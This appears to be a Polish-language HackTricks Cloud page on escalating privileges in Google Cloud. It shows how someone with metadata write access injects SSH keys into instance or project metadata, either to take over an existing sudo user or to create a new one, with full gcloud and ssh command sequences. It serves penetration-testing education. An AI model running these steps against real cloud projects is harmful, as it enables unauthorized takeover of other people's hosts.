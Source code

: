 # GCP - Dodawanie niestandardowych metadanych SSH

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Modyfikowanie metadanych <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modyfikacja metadanych na instancji może prowadzić do **znaczącego ryzyka bezpieczeństwa, jeśli atakujący uzyska odpowiednie uprawnienia**.

### **Dodawanie kluczy SSH do niestandardowych metadanych**

W przypadku systemów **Linux** na GCP często wykonywane są skrypty z [Python Linux Guest Environment dla Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Istotnym elementem tego środowiska jest [demon kont](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), który regularnie sprawdza punkt końcowy metadanych instancji w poszukiwaniu aktualizacji kluczy publicznych SSH.

Dlatego jeśli atakujący może modyfikować niestandardowe metadane, może sprawić, że demon znajdzie nowy klucz publiczny, który zostanie przetworzony i **zintegrowany z lokalnym systemem**. Klucz zostanie dodany do pliku `~/.ssh/authorized_keys` istniejącego użytkownika lub potencjalnie utworzy nowego użytkownika z uprawnieniami `sudo`, w zależności od formatu klucza. Atakujący będzie w stanie skompromitować hosta.

### **Dodawanie klucza SSH do istniejącego uprzywilejowanego użytkownika**

1. **Sprawdź istniejące klucze SSH na instancji:**
- Wykonaj polecenie, aby opisać instancję i jej metadane w celu zlokalizowania istniejących kluczy SSH. Odpowiednia sekcja w wyniku będzie znajdować się w sekcji `metadata`, a konkretnie w kluczu `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Zwróć uwagę na format kluczy SSH: nazwa użytkownika poprzedza klucz, oddzielone dwukropkiem.

2. **Przygotuj plik tekstowy dla metadanych klucza SSH:**
- Zapisz szczegóły nazw użytkowników i odpowiadających im kluczy SSH do pliku tekstowego o nazwie `meta.txt`. Jest to niezbędne do zachowania istniejących kluczy podczas dodawania nowych.

3. **Wygeneruj nowy klucz SSH dla docelowego użytkownika (`alice` w tym przykładzie):**
- Użyj polecenia `ssh-keygen`, aby wygenerować nowy klucz SSH, upewniając się, że pole komentarza (`-C`) odpowiada nazwie użytkownika docelowego.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Dodaj nowy klucz publiczny do `meta.txt`, naśladując format znaleziony w metadanych instancji.

4. **Zaktualizuj metadane klucza SSH instancji:**
- Zastosuj zaktualizowane metadane klucza SSH do instancji, używając polecenia `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Uzyskaj dostęp do instancji za pomocą nowego klucza SSH:**
- Połącz się z instancją za pomocą SSH, używając nowego klucza i uzyskaj dostęp do powłoki w kontekście docelowego użytkownika (`alice` w tym przykładzie).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Utwórz nowego uprzywilejowanego użytkownika i dodaj klucz SSH**

Jeśli nie znaleziono interesującego użytkownika, można utworzyć nowego, który otrzyma uprawnienia `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Klucze SSH na poziomie projektu <a href="#sshing-around" id="sshing-around"></a>

Możliwe jest rozszerzenie dostępu SSH do wielu wirtualnych maszyn (VM) w środowisku chmurowym poprzez **zastosowanie kluczy SSH na poziomie projektu**. Ten sposób umożliwia dostęp SSH do dowolnej instancji w projekcie, która nie zablokowała kluczy SSH na poziomie projektu. Oto podsumowana instrukcja:

1. **Zastosuj klucze SSH na poziomie projektu:**
- Użyj polecenia `gcloud compute project-info add-metadata`, aby dodać klucze SSH z pliku `meta.txt` do metadanych projektu. Ta czynność zapewnia, że klucze SSH są rozpoznawane we wszystkich VM w projekcie, chyba że VM ma włączoną opcję "Zablokuj klucze SSH na poziomie projektu".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH do instancji przy użyciu kluczy na poziomie projektu:**
- Po zastosowaniu kluczy SSH na poziomie projektu, możesz się zalogować przez SSH do dowolnej instancji w projekcie. Instancje, które nie blokują kluczy na poziomie projektu, zaakceptują klucz SSH, umożliwiając dostęp.
- Bezpośrednią metodą SSH do instancji jest użycie polecenia `gcloud compute ssh [INSTANCJA]`. Polecenie to używa twojej bieżącej nazwy użytkownika i kluczy SSH ustawionych na poziomie projektu, aby spróbować uzyskać dostęp.

# References
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi trikami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
